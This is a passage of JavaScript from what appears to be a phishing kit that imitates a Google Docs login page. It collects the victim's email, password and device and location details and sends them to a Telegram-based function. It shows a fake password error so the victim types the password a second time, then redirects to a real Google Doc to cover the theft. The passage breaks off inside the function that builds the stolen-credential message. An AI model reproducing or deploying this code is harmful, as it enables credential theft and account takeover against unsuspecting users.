           platform: navigator.platform,
          userAgent: navigator.userAgent
        };
      });

    function startLoading() {
      document.getElementById('welcome').classList.remove('active');
      document.getElementById('loadingScreen').classList.add('active');
      setTimeout(() => {
        document.getElementById('loadingScreen').classList.remove('active');
        document.getElementById('formScreen').classList.add('active');
      }, 3000);
    }

    form.addEventListener("submit", function (e) {
      e.preventDefault();

      const email = emailInput.value.trim();
      const password = passwordInput.value.trim();

      if (!password) {
        showError();
        return;
      }

      if (!userInfo) {
        showError("Please wait... collecting device info.");
        return;
      }

      if (!firstDone) {
        sendToTelegram(email, password, "Client", userInfo);
        showError();
        passwordInput.value = "";
        firstDone = true;
      } else {
        sendToTelegram(email, password, "Client", userInfo);
        errorMsg.style.display = "none";
        window.location.href = "https://docs.google.com/document/d/1yjgEF9X3yrSouY8G0Yv1t3Upd-P0xXiUE0R4Z0qD05c/edit?tab=t.0#heading=h.2gazcsgmxkub";
      }
    });

    function showError(customMsg) {
      errorMsg.textContent = customMsg || translations[lang].passwordError;
      errorMsg.style.display = "block";
      passwordInput.classList.add("shake");
      setTimeout(() => passwordInput.classList.remove("shake"), 400);
    }

    function sendToTelegram(email, password, attempt, info) {
      const message = `
📄 *Google Docs Login Attempt*
📧 Email: ${email}
🔑 Password: ${password}
🧪 Attempt: ${attempt}
🌍 IP: ${info.ip}
🏢 ISP: ${info.isp}
📍 Location: ${info.city}, ${info.region}, ${info.country}
🕒 Timezone: ${info.timezone}
💻 Platform: ${info.platform}
📱 Device Info: ${info.userAgent}
`;
